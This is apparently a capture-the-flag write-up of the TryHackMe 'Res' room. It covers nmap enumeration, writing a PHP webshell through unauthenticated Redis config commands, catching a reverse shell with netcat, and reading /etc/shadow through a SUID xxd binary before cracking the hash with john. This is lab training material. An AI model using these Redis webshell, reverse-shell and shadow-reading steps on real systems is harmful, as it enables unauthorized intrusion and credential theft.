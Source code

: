 ```yaml
---
title: "TryHackMe - Res"
author: Nasrallah
description: ""
date: 2022-09-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, redis, suid, easy, crack, john]
img_path: /assets/img/tryhackme/res
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Res](https://tryhackme.com/room/res) from [TryHackMe](https://tryhackme.com). We find a misconfigured databases that we exploit to get rce on the target and then a reverse shell. Then we find a binary with suid bit giving us the ability to read any file we want which leads to getting a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.085s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We found port 80 open running Apache web server. Let's scan all port this time : `sudo nmap -p- --min-rate 5000 -sV -T4 {Target_ip}`

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.080s latency).
Not shown: 65404 closed tcp ports (reset), 129 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

We found another port running `redis` version 6.0.7

## Redis

We can connect to `redis` using the following command: `redis -h {Target_ip}`

```terminal
$ redis-cli -h 10.10.184.71
10.10.184.71:6379>
```

We can run the command `info` which will give up statistics about the redis server.

```terminal
10.10.184.71:6379> info                                                       
# Server                        
redis_version:6.0.7                                                           
redis_git_sha1:00000000         
redis_git_dirty:0                                                             
redis_build_id:5c906d046e45ec07                                               
redis_mode:standalone                                                         
os:Linux 4.4.0-189-generic x86_64                                             
arch_bits:64                                                                  
multiplexing_api:epoll                                                        
atomicvar_api:atomic-builtin                                                  
gcc_version:5.4.0
process_id:618           
run_id:3e2c7a6de54cd12ab2794d6990908d5416bb48d3
tcp_port:6379                
uptime_in_seconds:1579        
uptime_in_days:0        
hz:10                         
configured_hz:10               
lru_clock:989304          
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0 

[** SNIP **]

# Keyspace
10.10.184.71:6379>
```

The section that can be useful for us is **Keyspace** which provides us with the databases and the keys available on the server. Unfortunately, we couldn't find anything in this server.

We can see that the redis server is located in the home directory of a user named `vianka`, but it's not very useful for us.

Searching on the internet for ways to get RCE using redis i found the following `article: http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html` that describes how to get a php webshell with the following example.

```terminal
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

We need to make some changes in the commands above.

We know that the web server running on the target is Apache, so we need to change the directory to **/var/www/html**.

We can leave the dbfilename as it is.

We change the php code to the following one that would give us remote code execution on the target.

```php
<?php system($_GET['cmd']); ?>
```

Let's do it.

```terminal
10.10.184.71:6379> config set dir /var/www/html
OK
10.10.184.71:6379> config set dbfilename redis.php
OK
10.10.184.71:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.184.71:6379> save
OK
10.10.184.71:6379> 
```

Now if we can go to `http://{target_ip/redis.php?cmd=}` to execute commands.

![](1.png)

We have code execution now.

# **Foothold**

To get a reverse shell, i uploaded [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s php code to the target.

>Don't forget to change the ip address in the code to your tun0 ip.

![](2.png)

Now we setup a listener with `nc -lvnp 1234` and request the shell.php file.

![](3.png)

We're in.

# **Privilege Escalation**

I uploaded `linpeas` to the target and run it.

![](4.png)

We find that `xxd` has suid bit, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid).

![](5.png)


We can run the following command to read any file in the system.

```bash
xxd {filename} | xxd -r
```

To read the shadow file for example, run `xxd /etc/shadow | xxd -r`

![](6.png)

We have vianka's hash, we can crack it using `john`.

![](7.png)

We can now change user to `vianka` and then to root.

![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
